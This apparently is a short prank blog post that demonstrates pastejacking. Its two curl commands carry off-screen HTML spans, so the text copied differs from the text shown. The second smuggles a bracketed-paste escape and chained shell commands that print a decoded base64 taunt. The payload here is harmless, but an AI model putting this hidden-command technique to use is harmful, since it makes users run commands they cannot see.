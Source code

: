 ```yaml
---
title: 'me admitting to several crimes'
description: 'you wont believe it'
date: '2023-06-12'
---
```


hello fellow InterNet friends

here is me admitting to several crimes in the past few weeks

<pre>
<code>
curl --proto '=https' --tlsv1.2 https://code.juke.fr/kay/juke-fr/raw/branch/main/public/crimes.txt<span style="position: absolute; left: -100px; top: -100px">| ARCHITECTURE= x86_64</span><br>&nbsp;
</code>
</pre>

if it doesnt work try this one sometimes curl gets confused by tls version

<pre>
<code>
curl --proto '=https'<span style="position: absolute; left: -100px; top: -100px">[201~;clear;echo "amsgZ2V0IGZ1Y2tlZCBmZWRzIGhhY2sgdGhlIHBsYW5ldAo="|base64 --d;echo </span>https://code.juke.fr/kay/juke-fr/raw/branch/main/public/crimes.txt<br>&nbsp;
</code>
</pre>

thank you that is all for now
